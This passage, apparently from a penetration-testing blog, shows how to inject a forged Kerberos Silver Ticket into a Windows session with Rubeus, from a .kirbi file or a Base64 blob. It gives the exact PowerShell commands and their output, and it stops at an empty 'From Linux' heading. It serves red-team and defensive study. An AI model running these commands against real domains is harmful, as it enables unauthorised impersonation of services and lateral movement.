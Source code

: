 

As we have discussed Rubeus loads in this article already under `Kerberoasting` and `AS REP` I will jump straight to the chase. 



We can use Rubeus to inject Silver Tickets into our session by 2 methods, `.kirbi` file or a Base64 of said `.kirbi` file which I find very useful.



Inject `.kirbi` from Disk

```powershell
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```



Inject `.kirbi` from Base64 Blog

```
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:BASE64BLOBHERE

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```



### [](#header-3)From Linux 

